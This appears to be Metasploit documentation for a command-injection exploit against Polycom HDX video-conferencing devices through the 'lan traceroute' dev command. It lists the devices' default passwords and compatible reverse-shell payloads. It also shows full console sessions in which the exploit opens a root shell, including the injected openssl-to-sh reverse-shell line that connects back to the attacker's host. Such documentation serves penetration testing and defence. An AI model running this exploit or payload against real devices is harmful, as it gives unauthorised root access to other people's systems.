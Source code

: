 Within Polycom HDX series devices, there is a command execution vulneralbility in one of the dev commands `devcmds`, `lan traceroute` which subtituing `$()` or otherwise similiar operand , similiar to [polycom_hdx_auth_bypass](https://github.com/rapid7/metasploit-framework/blob/f250e15b6ee2d7b3e38ee1229bee533a021d1415/modules/exploits/unix/polycom_hdx_auth_bypass.rb) could allow for an attacker to obtain a command shell. Spaces must be replaced with `#{IFS}` aka `Internal Field Seperator`


## Vulnerable Application
Tested on the latest and greatest version of the firmware, vendor has not patched since being reported. [Found here](http://downloads.polycom.com/video/hdx/polycom-hdx-release-3.1.10-51067.pup)

## Options
### PASSWORD
Although a majority of devices come without a  password, occasionally when one is required, you can set one to either the default `456`, `admin`, or `POLYCOM`, or
the devices.


## Payloads
Supported payloads include the telnet payload `cmd/unix/reverse` but not `cmd/unix/reverse_ssl_double_telnet` Alternatively, `cmd/unix/reverse_openssl` can be used or, your own choice of executing any arbitary command with `cmd/unix/generic`

```
Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/generic                                     normal  Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_openssl                             normal  Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_ssl_double_telnet                   normal  Unix Command Shell, Double Reverse TCP SSL (telnet)
```

## Verification Steps

A successful check of the exploit will look like this:
```
msf exploit(polycom) > set RHOST 192.168.0.17
RHOST => 192.168.0.17
msf exploit(polycom) > set LHOSt ens3
LHOSt => ens3
msf exploit(polycom) > set LPORT 3511
LPORT => 3511
msf exploit(polycom) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/generic                                     normal  Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_openssl                             normal  Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_ssl_double_telnet                   normal  Unix Command Shell, Double Reverse TCP SSL (telnet)

msf exploit(polycom) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
msf exploit(polycom) > set VERBOSE false
VERBOSE => false
msf exploit(polycom) > run

[*] Started reverse TCP double handler on 192.168.0.11:3511
[+] 192.168.0.17:23 - 192.168.0.17:23 - Device has no authentication, excellent!
[+] 192.168.0.17:23 - Sending payload of 126 bytes to 192.168.0.17:34874...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo vGopPRp0jBxt4J2D;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "vGopPRp0jBxt4J2D\n"
[*] Matching...
[*] A is input...
[*] Command shell session 10 opened (192.168.0.11:3511 -> 192.168.0.17:37687) at 2017-11-15 10:29:58 -0500
[*] 192.168.0.17:23 - Shutting down payload stager listener...

id
uid=0(root) gid=0(root)
whoami
root
```

## Debugging
Setting `VERBOSE` to true should yield an output of.

```
msf exploit(polycom) > set VERBOSE true
VERBOSE => true
rmsf exploit(polycom) > run

[*] Started reverse TCP double handler on 192.168.0.11:3511
[*] 192.168.0.17:23 - Received : !
Polycom Command Shell
XCOM host:    localhost port: 4121
TTY name:     /dev/pts/6
Session type: telnet
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:server_thread_handler: freeing conn [conn: 0x1266f300] [sock: 104] [thread: 0x12559e68]
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: SessionHandler: freeing session 4340
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: deleteSession(sess: 4340)
2017-11-15 15:33:12 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: deleteSession current open sessions count= 9
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:main_server_thread: new connection [conn: 0x1266f300] [sock: 104]
2017-11-15 15:33:12 DEBUG avc: pc[0]: XCOM:INFO:server_thread_handler: new conn [conn: 0x1266f300] [sock: 104] [thread: 0x1255a010] [TID: 3380]
2017-11-15 15:33:12 DEBUG avc: pc[0]: uimsg: [R: telnet /tmp/apiasynclisteners/psh6 /dev/pts/6]
2017-11-15 15:33:13 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: createSession(type: telnet sess: 4342)
2017-11-15 15:33:13 DEBUG jvm: pc[0]: UI: xcom-api: ClientManager: createSession current open sessions count= 10
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: register_api_session pSession=0x12669918
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: about to call sendJavaMessageEx
2017-11-15 15:33:13 DEBUG avc: pc[0]: appcom: session 4342 registered

[+] 192.168.0.17:23 - 192.168.0.17:23 - Device has no authentication, excellent!
[+] 192.168.0.17:23 - Sending payload of 126 bytes to 192.168.0.17:37450...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo WD3QloY3fys6n7dK;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] 192.168.0.17:23 - devcmds
Entering sticky internal commands *ONLY* mode...
lan traceroute `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh`
2017-11-15 15:33:13 DEBUG avc: pc[0]: uimsg: [D: lan traceroute `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh`]
2017-11-15 15:33:13 DEBUG avc: pc[0]: os: task:DETR pid:3369 thread 4e5ff4c0 11443 12660c68
2017-11-15 15:33:14 INFO avc: pc[0]: DevMgrEther: Trace Route Command Entry, hostnameORIP: `openssl${IFS}s_client${IFS}-quiet${IFS}-host${IFS}192.168.0.11${IFS}-port${IFS}37873|sh` hop_count: 0

[*] Reading from socket B
[*] B: "WD3QloY3fys6n7dK\n"
[*] Matching...
[*] A is input...
[*] Command shell session 11 opened (192.168.0.11:3511 -> 192.168.0.17:38624) at 2017-11-15 10:34:23 -0500
[*] 192.168.0.17:23 - Shutting down payload stager listener...

id
uid=0(root) gid=0(root)
whoami
root
```
